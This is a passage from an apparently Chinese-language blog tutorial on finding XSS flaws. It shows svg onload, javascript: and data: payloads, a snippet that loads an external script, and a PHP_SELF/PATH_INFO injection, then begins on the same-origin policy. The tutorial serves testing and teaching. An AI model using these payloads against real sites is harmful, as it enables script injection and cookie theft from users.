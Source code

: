 "><svg/onload=alert(1)//
```
当时拿着这段payload这插插那插插，一天就过去了，玩的不亦乐乎
现在想想，这段短小的payload伴随了我测试XSS漏洞的整个时光~

##### 具体引用外部js的代码姿势是:

```
<svg/onload=s=createElement('script');body.appendChild(s);s.src='js地址'//
```

在火狐浏览器下查看的效果(浏览器解析时会自动加上引号):

![](../pics/svg.png)

##### a标签伪协议执行

```
<a href="javascript:alert(1)" >click me</a>
```

 ##### data引用外域资源

```
<a href="data:text/html;base64,这里跟着base64之后的js代码">click here</a>
```


外域获取cookie,据我所知只有火狐才可以了，这里涉及同源策略相关知识。


具体情况还需要具体分析，一定要记住 灵活构造 才是XSS最核心的东西

以上是黑盒测试我自己的基本流程

如果平时代码审计呢？

在PHP下我还真审计出来不少,基本操作还是那些，说一个记忆比较深刻的吧
`
```
$_SERVER['PHP_SELF']
```

这个PHP超全局变量如果作为输出显示到网页中，会提供当前url，
然而不少php环境下开启PATH_INFO，这种功能可以提供路径的形式传参
比如Wordpress提供生成静态链接方法，路径是index/article/001，其实这是给index.php传入 article 和 001两个参数，我们可以构造

`
http://url.cn/index/"><img src=x onerror="alert(1)">/xxx/
``
`
来作为传入参数，这样显示的url也就包括了这一段payload
有趣的是，我在写上面代码的时候，我的markdown编辑器预览界面弹窗了233

### 四.谈谈防护：

##### SOP策略（同源策略）

源是主机，协议，端口名的一个三元组。

同源策略(Same Origin Policy, SOP)是Web应用程序的一种安全模型，它控制了网页中DOM之间的访问。注意：它仅仅是个模型

给定一个页面，如果另一个页面使用的协议、端口、主机名都相同，我们则认为两个页面具有相同的源。
```
EX: http://a.url.cn/c0d3r1iu.html
```
```